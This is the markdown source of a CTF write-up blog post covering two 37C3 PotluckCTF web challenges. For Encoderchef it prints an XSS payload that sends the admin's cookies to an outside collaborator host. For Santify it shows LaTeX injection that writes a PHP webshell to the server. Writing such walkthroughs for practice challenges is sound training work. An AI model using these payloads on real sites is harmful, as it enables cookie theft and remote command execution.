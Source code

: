 ```yaml
---
layout: post
title: PotluckCTF 37C3 - Writeups/Challenges
categories: [CTF Jeopardy]
tags: [ctf,web]
permalink: /posts/37c3potluckctf
img_path: /images/37c3potluckctf/
datafile: 37c3potluckctf
image:
  path: icon.png
---
```


My team participated in the 37C3 PotluckCTF and got one challenge, though I personally got painfully close to another one... The following is a writeup/walkthrough of how each flag was grabbed and the thought process for each.

## web/Encoderchef (161 solves)
Created by: `ntomsic`

> I heard Cyberchef is monitored by GCHQ so I am trying to build my own version. It is still under construction so if you see any problems with the site just send a link to the admin and they will have a look :) // (Flag is in admin cookie)

Our site is a converter of text to various formats, like base64, hex, binary, etc.

![Converter](encoderchef_1.png)

We are also given the source code of the page, aswell as an 'admin' page. This 'admin' page has a URL input for the admin to visit.

![Admin URL Visiting Page](encoderchef_2.png)

If we can find an exploit to steal the admin's cookies (as they said in the description). We get the flag!

```php
$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
	$input = base64_decode($_GET["input"]);

	if($input === false){
		$output = "Invalid input";
	} else {
		switch ($_GET["encoding"]) {
			case "base64":
				$output = base64_encode($input);
				break;
```
A portion of the code catches my eye, specifically the base64 input. If we can put in a base64 input that decodes to HTML tags, we can cause an XSS!

Payload:

```html
</textarea>
<script>
i=document.createElement("img");
i.src="https://******************************.oastify.com?c="+btoa(document.cookie);
document.body.appendChild(i);
</script>
<textarea>
```

Encoding our payload with Base64 and then URL encoding it, and making a final url gives us this: `http://[url]:31337/?encoding=base64&input=[payload]`

And sending it to the admin, sends us back our Base64 encoded cookies with our flag!

Flag: <mark>flag="potluck{uu_make_me_go_crazy}"</mark>

**Files:** None provided :(

## web/Santify (58 solves)
Created by: `13x1`
> I found this shop that claims to provide ""delivery via reindeer sleigh"". I ordered a few things, but the cards did not arrive on time! Please find out what went wrong.<br>Anyway, check out their web page<br>Note: Any accounts named ADMIN, BOT or similar are regular users and not part of the challenge, please ignore them


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:

![Card Creation](santify_1.png)

The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...

![LFI Attempt](santify_2.png)

... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.

**Files:** None provided :(


## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

## Unsolved
A list of challenges I didn't solve, and the downloads (if provided) to try them for yourself! All challenges are sorted by solve count.
{% assign sortedcategories = site.data.ctfs[page.datafile] | sort: 'name' %}
{% for category in sortedcategories %}
	{% assign solved = 0 %}
	{% for chal in category.chals %}
		{% unless chal.solved %}
			{% assign solved = solved | plus: 1%}
		{% endunless %}
	{% endfor %}
### {{ category.name }} - {{ category.chals.size | minus: solved }}/{{ category.chals.size }} solved
	{% assign sortedchals = category.chals | sort: 'solves' %}
	{% for chal in sortedchals reversed %}
<details markdown="1">
<summary>{%if chal.solved%}✅ {%endif%}{{chal.name}}{%if chal.solves%} - {{chal.solves}} solve{%if chal.solves != 1%}s{%endif%}{%endif%}</summary>
	{%if chal.creator%}
Created by: `{{chal.creator}}`
	{%endif%}
	{%if chal.desc%}
> {{chal.desc}}
	{%endif%}
**Files:** {% if chal.files %}{% for file in chal.files %}[{{ file.name }}]({{ file.url }}) {% endfor %}{% else %}None provided :({% endif %}
</details>
	{% endfor %}
{% endfor %}
